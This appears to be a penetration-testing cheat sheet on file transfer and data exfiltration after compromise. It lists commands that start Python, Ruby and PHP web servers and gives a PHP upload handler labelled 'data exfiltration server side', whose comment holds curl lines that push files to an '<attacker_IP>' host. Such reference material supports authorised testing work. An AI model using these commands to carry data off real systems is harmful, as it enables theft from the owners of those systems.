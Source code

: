 # Setup

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #living-off-the-land #linux

## 01 - Python

Note: by default it runs the service with port 8000 if it is not specified

```
$ sudo python2 -m SimpleHTTPServer 80

$ sudo python3 -m http.server 80
```

## 02 - Ruby

Note: you'll need to install webrick for ruby (by default it'll use port 8080 if port is not specified)

To install the ruby gem:

```
$ gem install webrick
```

To install in Debian/Ubuntu

```
$ sudo apt install ruby-webrick
```

Host a webserver via Ruby

```
$ sudo ruby -run -ehttpd . -p80
```

## 03 - PHP

Data exfiltration server side.

```php
<?php
/*
$ sudo mkdir -p /var/www/html/uploads/ && \
sudo chown www-data:www-data /var/www/html/

$ curl <-F | --form> fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php

$ curl <-T | --upload-file> fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php
*/

$target_directory = "uploads/"
$target_file = $target_directory . basename($_FILES["fileToUpload"]["name"]);

echo "Source=" . $_FILES["fileToUpload"]["name"] . "<br/>";
echo "Target path=" . $target_directory . "<br/>";
echo "Size=" . $_FILES["fileToUpload"]["size"] . "<br/>";

if(move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
    echo "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded";
} else {
    echo "There was an error uploading the file, please try again!";
}
?>


<!DOCTYPE html>
<html>
    <body>
        <form method="post" enctype="multipart/form-data">
            Select File to upload:
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" name="Upload">
        </form>
    </body>
</html>
```

To install in Debian/Ubuntu

```
$ sudo apt install apache2

$ sudo apt install nginx
```

Host a webserver via PHP

```
$ sudo php -S 0.0.0.0:80

$ sudo systemctl start apache2

$ sudo systemctl start nginx
```